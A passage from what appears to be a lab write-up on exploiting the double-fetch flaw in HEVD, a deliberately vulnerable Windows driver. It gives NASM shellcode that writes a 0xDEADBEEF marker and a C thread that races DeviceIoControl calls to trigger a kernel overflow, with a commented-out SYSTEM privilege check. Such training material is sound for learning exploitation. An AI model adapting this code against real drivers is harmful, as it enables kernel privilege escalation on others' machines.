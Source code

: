 Yup that's our pattern, and ``61413161`41306141`` is offset 0.

So we can dereference `rsp + 0x2e8` to get the `DOUBLE_FETCH` struct, then dereference that value to get the `Buffer`, and then dereference the `Buffer` to write something at offset 0.

In assembly that would be:
```NASM
  mov rax, [rsp + 0x2e8]      ; Load the first pointer (poi(rsp + 0x2e8)) into rax
  mov rbx, [rax]              ; Dereference rax to get the second pointer (poi(poi(rsp + 0x2e8)))
  mov dword [rbx], 0xDEADBEEF ; Write 0xDEADBEEF to the address pointed to by rbx (poi(poi(rsp + 0x2e8)))
```

I added that assembly to the shellcode. Now the `DeviceIoControlThread` function can be updated to the below, and we can correctly determine if the `DeviceIoControl` call triggered an overflow and ran the shellcode by checking the value at `pIRPArgs->pDoubleFetch.Buffer`. Which imo is nicer than spamming `GetUserNameA`.

```c
DWORD WINAPI DeviceIoControlThread(LPVOID lpParameters) {

    PIRP_ARGS pIRPArgs = (PIRP_ARGS)lpParameters;

    while (1) {
        pIRPArgs->pDoubleFetch.Size = 0x10;

        DWORD dwBytesReturned = 0;
        DeviceIoControl(
            pIRPArgs->hHEVD,
            HEVD_IOCTL_DOUBLE_FETCH,
            &pIRPArgs->pDoubleFetch,
            sizeof(DOUBLE_FETCH),
            NULL,
            0x00,
            &dwBytesReturned,
            NULL);

        if (*(u32*)pIRPArgs->pDoubleFetch.Buffer == (u32)0xDEADBEEF) {
            printf("Overflow triggered\n");
            printf("DeviceIoControlThread thread exiting\n");
            SetEvent(pIRPArgs->hEvent);
            return 0;
        }

        //if (IsSYSTEM()) {
            //printf("Overflow triggered\n");
            //printf("DeviceIoControlThread thread exiting\n");
            //SetEvent(pIRPArgs->hEvent);
            //return 0;
        //}

        Sleep(1);
    }

    return 0;
}
```
